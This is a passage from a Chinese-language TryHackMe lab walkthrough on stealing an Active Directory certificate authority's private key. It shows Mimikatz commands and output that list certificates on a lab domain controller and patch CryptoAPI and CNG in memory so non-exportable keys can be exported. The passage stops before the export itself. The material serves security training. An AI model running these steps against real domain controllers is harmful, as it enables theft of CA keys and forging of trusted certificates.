 CA 的私钥存储在 CA 服务器上。如果私钥没有通过硬件保护方法（如硬件安全模块 HSM）进行保护，而这种情况在仅使用 Active Directory 证书服务（AD CS）进行内部用途的组织中经常出现，那么它就是由机器数据保护 API（DPAPI）保护的。这意味着我们可以使用诸如 Mimikatz 和 SharpDPAPI 之类的工具来提取 CA 证书，进而提取 CA 的私钥。Mimikatz 是最简单的工具，但如果你想尝试其他工具，可以在 [Golden Certificate](https://pentestlab.blog/2021/11/15/golden-certificate/) 看看。使用 SSH 使用 Task 2 中的管理员凭据对 THMDC.za.tryhackme.loc 进行身份验证，为你的用户创建一个唯一的目录，进入该目录，并加载 Mimikatz：

```shell title="Terminal"
za\administrator@DC C:\Users\Administrator.ZA>mkdir <username>
za\administrator@DC C:\Users\Administrator.ZA>cd <username>
za\administrator@DC C:\Users\Administrator.ZA\am0>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

让我们首先看看能否查看存储在 DC 上的证书：

```shell title="Mimikatz Terminal"
mimikatz # crypto::certificates /systemstore:local_machine
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b (CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ;)
        Exportable key : NO
[....]
```

我们可以看到在 DC 上有一个 CA 证书。我们还可以注意到其中一些证书被设置为不允许导出密钥。如果没有这个私钥，我们将无法生成新的证书。幸运的是，Mimikatz 允许我们对内存进行修补，使这些密钥可导出：

```shell title="Mimikatz Terminal"
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
```
